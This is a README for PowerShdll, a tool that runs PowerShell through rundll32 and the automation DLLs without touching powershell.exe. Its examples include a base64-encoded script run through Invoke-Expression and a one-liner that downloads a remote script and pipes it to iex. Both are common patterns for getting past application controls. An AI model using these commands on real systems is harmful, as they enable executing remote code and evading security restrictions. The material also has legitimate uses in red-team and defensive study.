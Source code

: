 # PowerShdll
Run PowerShell with dlls only.
Does not require access to powershell.exe as it uses powershell automation dlls.

## dll mode:

```
Usage:
rundll32 PowerShdll,main <script>
rundll32 PowerShdll,main -f <path>       Run the script passed as argument
rundll32 PowerShdll,main -w      Start an interactive console in a new window
rundll32 PowerShdll,main -i      Start an interactive console in this console
If you do not have an interractive console, use -n to avoid crashes on output
```

## exe mode

```
Usage:
PowerShdll.exe <script>
PowerShdll.exe -f <path>       Run the script passed as argument
PowerShdll.exe -i      Start an interactive console in this console
```
## Examples
### Run base64 encoded script
```
rundll32 Powershdll.dll,main $a = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("BASE64")); Invoke-Expression $a
```
### Download and run script
```
rundll32 PowerShdll.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;
```
## Known Issues

Some errors do not seem to show in the output. May be confusing as commands such as Import-Module do not output an error on failure.
Make sure you have typed your commands correctly.

In dll mode, interractive mode and command output rely on hijacking the parent process' console. If the parent process does not have a console, use the -n switch to not show output otherwise the application will crash.

Due to the way Rundll32 handles arguments, using several space characters between switches and arguments may cause issues. Multiple spaces inside the scripts are okay.

